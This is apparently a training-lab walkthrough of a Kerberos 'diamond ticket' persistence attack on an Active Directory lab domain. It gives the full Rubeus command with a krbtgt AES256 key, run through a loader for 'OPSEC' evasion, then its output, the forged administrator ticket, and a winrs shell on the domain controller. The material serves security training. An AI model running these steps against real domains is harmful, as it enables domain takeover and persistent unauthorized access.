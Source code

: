 # Learning Objective 10 (Domain Persistence | Diamond Ticket)

## Tasks

1. **Use domain admin privileges obtained earlier (see *Learning Objective 08*) to execute the diamond ticket attack**

---

## Solution

1. **Use domain admin privileges obtained earlier (see *Learning Objective 08*) to execute the diamond ticket attack**

We can simply use the following Rubeus command to execute the attack.
Note that the command needs to be run **from an elevated shell ('run as administrator')**. We take the usual OPSEC care of using Loader.

![Run as administrator](./assets/screenshots/learning_objectives_run_as_administrator.png)

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes

========================================== ================ ============================================= ===============================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators👥                   Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner✅
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
dcorp\RDPUsers                             Group            S-1-5-21-719815819-3726368948-3917688648-1123 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

In order to perform the diamond ticket attack we need to use the `krbtgt` aes256 key.

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Diamond Ticket📌

[*] Showing process : True
[*] Username        : MZBPYDM3
[*] Domain          : LYOCO7MX
[*] Password        : B89I5HTT
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 3252
[+] LUID            : 0x626d5a

[*] No target SPN specified, attempting to build 'cifs📌/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/dcorp-dc.dollarcorp.moneycorp.local'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: 5Gs8379n58wpVLIc13YhnzmmPL9MOAbONZb0NbtgacY=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

[SNIP]

[*] Decrypting TGT
[*] Retreiving PAC
[*] Modifying PAC
[*] Signing PAC
[*] Encrypting Modified TGT

[*] base64(ticket.kirbi):

[SNIP]

[*] Target LUID: 0x626d5a
[+] Ticket successfully imported!🎟️
```

Access the DC using winrs from the new spawned process!

![New spawned terminal process](./assets/screenshots/learning_objective_10_new_spawned_terminal_process.png)

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`whoami /groups`:
```
ERROR: Unable to get group membership information.
```
❌

`klist`:
```
Current LogonId is 0:0x626d5a

Cached Tickets: (1)

#0>     Client: administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 2/13/2025 7:09:52 (local)
        End Time:   2/13/2025 17:09:43 (local)
        Renew Time: 2/20/2025 7:09:43 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

`winrs -r:dcorp-dc cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator>
```
🚀

![dcorp-dc | administrator](https://custom-icon-badges.demolab.com/badge/dcorp--dc-administrator-64b5f6?logo=windows11&logoColor=white)

`whoami`:
```
dcorp\administrator
```

`hostname`:
```
dcorp-dc
```
🚩

---
---
